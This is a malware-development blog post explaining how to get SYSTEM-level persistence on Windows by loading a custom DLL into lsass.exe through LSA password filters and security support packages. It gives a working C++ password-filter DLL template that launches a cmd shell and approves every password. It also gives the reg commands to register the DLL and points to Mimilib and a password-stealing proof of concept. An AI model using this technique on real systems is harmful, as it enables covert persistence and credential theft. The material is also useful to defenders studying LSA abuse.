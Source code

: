 ```yaml
---
layout: post
title: Using LSA for Windows persistence
date: 2023-11-26
categories: [Malware Development,Persistence]
tags: [persistence]     
---
```


### Introduction

The Local Security Authority (LSA) is a subsystem in Windows architecture that authenticates and logs users to the local systems. It's responsible for verifying password changes, login attempts, creating access tokens, and performing general Windows authentication and authorization tasks. The LSA also contains the Local Security Policy, which contains aspects about everything related to local security. 

It achieves this through a process called Local Security Authority Subsystem Service (lsass.exe), which we all love dumping the memory of thanks to its contents. LSASS caches all kinds of credentials like the DPAPI masterkey, Kerberos passwords, tickets, ekeys, pins and so on.

What may surprise you is that LSA can also be used for persistence, in which case our code will be executed inside the lsass's process memory. Consequently, the code will run as the SYSTEM user, and we will be able to extract credentials from the address space. All of these techniques involve creating DLLs to be loaded by LSA into the lsass process. 

These techniques might not work if lsass is running as Protected Process Light (PPL), because our DLL has to be signed by Microsoft. I will talk about bypassing PPL in another post. For now, let's discover a few persistency procedures involving LSA.


### Password filters

LSA password filters are used to validate password changes against password policies. When you try to change your password, the LSA calls each registered password filter twice: once to verify the new password, and then to notify the filters that the change has been made. 

A password filter has to export three functions to be successfully registered:

- `InitializeChangeNotify`
This function gets called when the password filter is loaded into the LSA
- `PasswordFilter`
This function validates the newly created password
- `PasswordChangeNotify`
This is the function that gets called when the password is successfully changed


Let's observe a simple implementation, which will open a cmd shell and display the message "Persistence!" if our method is successful.

```cpp
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>

int hack(void) 
{
   STARTUPINFO si;
   PROCESS_INFORMATION pi;

   ZeroMemory(&si, sizeof(si));
   si.cb = sizeof(si);
   ZeroMemory(&pi, sizeof(pi));

   wchar_t cmdLine[] = L"cmd /K echo Persistence!";

   if (!CreateProcess(NULL, cmdLine, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi))
   {
       
       return 1;
   }

   
   CloseHandle(pi.hProcess);
   CloseHandle(pi.hThread);

   return 0;
}

BOOLEAN __stdcall InitializeChangeNotify(void) 
{
   // We start our hack function, and return TRUE to let LSA know that everything went right
    HANDLE th;

    th = createThread(0, 0, (LPTHREAD_START_ROUTINE) hack, 0, 0, 0);
    WaitForSingleObject(th, 0);

    return TRUE;
}

NTSTATUS __stdcall PasswordChangeNotify(PUNICODE_STRING UserName, ULONG RelativeId, PUNICODE_STRING NewPassword) 
{ 

    return 0; 

}
BOOLEAN __stdcall PasswordFilter(PUNICODE_STRING AccountName, PUNICODE_STRING FullName, PUNICODE_STRING Password, BOOLEAN SetOperation) 
{ 
    // this function returns TRUE in order to tell LSA that the password is ok
    return TRUE; 

}
```

To register this "password filter" we need to change the `Notification Packages` entry in the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` registry key to contain the name of our DLL. But first, let's see the current value of the aforementioned entry:

```cmd
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" 

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    Notification Packages    REG_MULTI_SZ    scecli
```
We see that it holds the value `scecli`, and it is a `REG_MULTI_SZ` type, which means that it contains a sequence of null-terminated strings `Kind\0Of\0Like\0This\0\0`. The first '\0' terminates the first string, the second-from-last `\0` terminates the last string, and the final `\0` terminates the sequence.

So to add our DLL to the `Notification Packages` entry, we must copy our `filter.dll` to `%windir%\System32\` and then execute

```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" /d "scecli"\0"filter" /t REG_MULTI_SZ /f
```

After a restart, LSA should load our dll into its address space, and now we have persistence.


### Authentication packages (AuthPkg) and Security Support Provider (SSP)

Authentication packages are mainly used for instructing LSA on what basis to authenticate a user. For example, the MSV1_0 AuthPkg checks the SAM database to determine whether the provided credentials are correct or not. SSPs on the other hand, are an implementation of security protocols like Kerberos or NTLM. 

LSA automatically loads all registered SSPs and AuthPkgs into its process at boot:

- In the case of SSP it calls the `SpLsaModeInitialize` function to obtain pointers to the functions implemented by each security package in that DLL. Those pointers are passed to the LSA in an array called `SECPKG_FUNCTION_TABLE`. 

- In the case of an AuthPkg, LSA calls `LsaApInitializePackage` to initialize the authentication package.

To achieve persistence using this method, all we have to do is copy the dll to `%windir%\System32` and add it's name to the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages` registry. Alternatively, we can use PowerSploit's `Install-SSP` function or Empire's `install_ssp` module.

For example, we can look at Mimilib. Particularly, the [kssp.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kssp.c) component, in which we notice that the function `kssp_SpLsaModeInitialize` is exported as `SpLsaModeInitialize` in `Mimilib.def`. Consequently, when LSA loads this SSP, the preceding function is called, and Mimilib achieves it's functionality.  


### Extras

If you wish to see another implementation of process filters, check out [this code](https://github.com/gtworek/PSBits/blob/master/PasswordStealing/PSPY.c). I also suggest reading more about authentication packages and SSPs from the official Microsoft docs, as I haven't covered those concepts in great depth.

Thank you for reading until the end!


### Resources 

https://learn.microsoft.com/en-us/windows/win32/secauthn/authentication-packages
https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture
